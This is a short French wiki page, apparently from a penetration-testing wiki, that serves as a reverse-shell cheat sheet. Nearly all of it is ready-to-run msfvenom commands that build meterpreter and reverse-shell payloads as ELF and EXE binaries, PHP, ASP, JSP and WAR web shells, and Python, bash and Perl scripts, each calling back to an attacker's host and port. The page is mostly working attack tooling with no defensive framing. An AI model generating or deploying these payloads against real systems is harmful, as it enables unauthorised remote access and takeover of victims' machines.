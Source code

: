```yaml
---
title: Reverse Shells
permalink: /Reverse_Shells/
---
```


msfvenom
--------

Test

### Payloads Executables

Rever shell en binaire ELF (Linux)

``` bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

Reverse shell (Windows)

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

### Payloads Webs

Reverse shell en PHP

``` bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.30.229 LPORT=443 -f raw > shell.php
```

Reverse shell en ASP.Net

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.229 LPORT=443 -f asp > meterpreter.asp
```

Reverse shell JSP

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

Reverse shell sous forme de WAR

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

### Payloads Scripts

Script python

``` bash
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

Script bash

``` bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

Script perl

``` bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Ressources
----------

-   [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Category:Exploitation](/Category:Exploitation "wikilink")